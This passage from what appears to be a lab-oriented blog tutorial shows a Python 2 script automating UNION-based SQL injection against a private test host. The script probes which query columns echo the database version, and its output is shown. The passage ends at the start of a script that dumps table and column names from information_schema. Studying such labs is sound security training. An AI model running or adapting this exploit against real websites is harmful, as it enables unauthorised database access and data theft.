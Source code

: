     r = urllib2.urlopen(url+"1,version(),3,4")
    b = r.read()
    search = re.search(display, b)

    if search:
        print "    [+] Second column displays data!"
        unknown_display = False
    else:
        print "    [+] No data printed in second column"

    # 3rd column displays
    r = urllib2.urlopen(url+"1,2,version(),4")
    b = r.read()
    search = re.search(display, b)

    if search:
        print "    [+] Third column displays data!"
        unknown_display = False
    else:
        print "    [+] No data printed in third column"

    # 4th column displays
    r = urllib2.urlopen(url+"1,2,3,version()")
    b = r.read()
    search = re.search(display, b)

    if search:
        print "    [+] Fourth column displays data!"
        unknown_display = False
    else:
        print "    [+] No data printed in fourth column"
{% endhighlight %}

Which shows

```
$ python sqli2shell.py
[+] Checking displaying column...
    [+] No data printed in first column
    [+] Second column displays data!
    [+] Third column displays data!
    [+] No data printed in fourth column
```

Now, this script to pull the table and column names is a little messy, but it gets the job done.

{% highlight python linenos %}
#!/usr/bin/python
# SQLi to Shell Script
# www.maxmunday.com 
import urllib2
import re

# discover table and coumn names

print "[+] Checking column and table names..."

names = "users:.+"
url = "http://10.0.0.16/cat.php?id=1%20UNION%20SELECT%20"

r = urllib2.urlopen(url+"1,concat(table_name,%27:%27,column_name),3,4%20FROM%20information_schema.columns")